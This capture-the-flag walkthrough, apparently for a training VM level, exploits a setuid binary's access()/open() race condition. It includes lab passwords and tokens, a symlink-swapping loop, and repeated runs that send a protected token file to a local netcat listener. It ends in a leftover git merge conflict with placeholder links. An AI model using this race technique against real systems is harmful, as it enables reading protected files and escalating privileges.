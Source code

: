 # Level10 - Flag10

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level10 | `s5cAJpM8ev6XHw998pRWG728z` |
| flag10  | `woupa2yuojeeaaed06riuj63c` |
| token   | `feulo4b72j7edeahuete3no7c` |

## Steps to resolve on VM

1. Connect to `level10` user and notice there is an executable and a token file owned by `flag10` user

```bash
ssh level10@$SNOW_HOST -p 4242
# Enter the password

ls -l

> -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
> -rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

2. Check the files

```bash
./level10

> ./level10 file host
>        sends file to host if you have access to it
# We have here the file usage

./level10 token 127.0.0.1

> You do not have access to token
# Indeed, we don't have permissions. It does not work neither with a symbolic link.

echo abc > /tmp/abc
./level10 /tmp/abc 127.0.0.1

> Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
# We discover here that the program uses the port 6969. Is it open ?
```

3. Listen the port 6969

Lets check listening ports :

```bash
netstat -tulpn | grep LISTEN

> tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      -
> tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
> tcp6       0      0 :::4646                 :::*                    LISTEN      -
> tcp6       0      0 :::4747                 :::*                    LISTEN      -
> tcp6       0      0 :::80                   :::*                    LISTEN      -
> tcp6       0      0 :::4242                 :::*                    LISTEN      -
```

It appears that we are not listening the port 6969. We need to open this port to be able to receive the file sended by the program `level10`. We can use the tool `netcat` for this job.

```bash
netcat -lk 6969
# -l    listen
# -k    keep listening
```

The VM is now listening the port 6969.

We can check it with `netstat`

```bash
netstat -tulpn | grep 6969

> tcp        0      0 0.0.0.0:6969            0.0.0.0:*               LISTEN      <PID>/netcat
```

4. Send a file with `level10` program through host:6969

The port 6969 is now open. Lets try to send a file through

```bash
echo abc > /tmp/abc
./level10 /tmp/abc 0.0.0.0

> Connecting to 0.0.0.0:6969 .. Connection from 127.0.0.1 port 6969 [tcp/*] accepted
> .*( )*.
> Connected!
> Sending file .. abc
> wrote file!
```

It works perfectly.

But we still don't have the permission to token file.

```bash
./level10 ~/token 0.0.0.0

> You do not have access to /home/user/level10/token
```

5. Explore `level10` binary

At this moment we are stuck and we need to find a way to read the token content without permissions.

Lets explore level10 binary using `nm` to list external calls

```bash
nm -u level10

>         U access@@GLIBC_2.0
>         U connect@@GLIBC_2.0
>         U exit@@GLIBC_2.0
>         U fflush@@GLIBC_2.0
>         U htons@@GLIBC_2.0
>         U inet_addr@@GLIBC_2.0
>         U open@@GLIBC_2.0
>         U printf@@GLIBC_2.0
>         U puts@@GLIBC_2.0
>         U read@@GLIBC_2.0
>         U socket@@GLIBC_2.0
>         U strerror@@GLIBC_2.0
>         U write@@GLIBC_2.0
```

What is access ?

```bash
man access
```

> NAME <br />
> access - check real user's permissions for a file <br />

> DESCRIPTION <br />
> access() checks whether the calling process can access the file pathname. If pathname is a symbolic link, it is dereferenced.

> (...)

> NOTES <br /> > **Warning**: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a **security hole**, because **the user might exploit the short time interval between checking and opening the file** to manipulate it.

6. Exploit `access`' security hole

Lets exploit this security hole.

We have to exploit the _"short time interval between checking and opening the file"_

```bash
echo "not the token" > /tmp/isnottoken
while true; do
    ln -sf /tmp/isnottoken /tmp/token
    ln -sf ~/token /tmp/token
done
```

The symbolic link `/tmp/token` will swap very often between the file created by us and the token file, that is restricted.

We hope that access tool will authorize us to acceed to `/tmp/isnottoken` (the file created by us), and then (after changing the symlink reference) open `~/token`.

The behavior is random and needs some luck, so we need to launch multiple times the program to exploit the security hole.

```bash
for i in {1..30}; do
    ~/level10 /tmp/token 0.0.0.0
done
# Try again if necessary

> Connecting to 0.0.0.0:6969 .. .*( )*.
> Connected!
> Sending file .. not the token
> wrote file!
> You do not have access to /tmp/token
> Connecting to 0.0.0.0:6969 .. .*( )*.
> Connected!
> Sending file .. not the token
> wrote file!
> Connecting to 0.0.0.0:6969 .. .*( )*.
> Connected!
> Sending file .. woupa2yuojeeaaed06riuj63c # YEAH!
> wrote file!
```

After many tries, we can see a token: `woupa2yuojeeaaed06riuj63c` !

7. Get level flag

```bash
su flag10
# Enter password

> Don t forget to launch getflag !

getflag

> Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

---

## Sources

### Shell

<<<<<<< HEAD
- [abc](http://)

### Cryptography

- [abc](http://)
=======
- [Check ports in use](https://www.cyberciti.biz/faq/unix-linux-check-if-port-is-in-use-command/)
- [Man netcat](https://linux.die.net/man/1/nc)
- [Man nm](https://linux.die.net/man/1/nm)
- [Man access](https://linux.die.net/man/2/access)
>>>>>>> 19e33b0a02b1c951a3f8831b5f8efa2e732aa78b
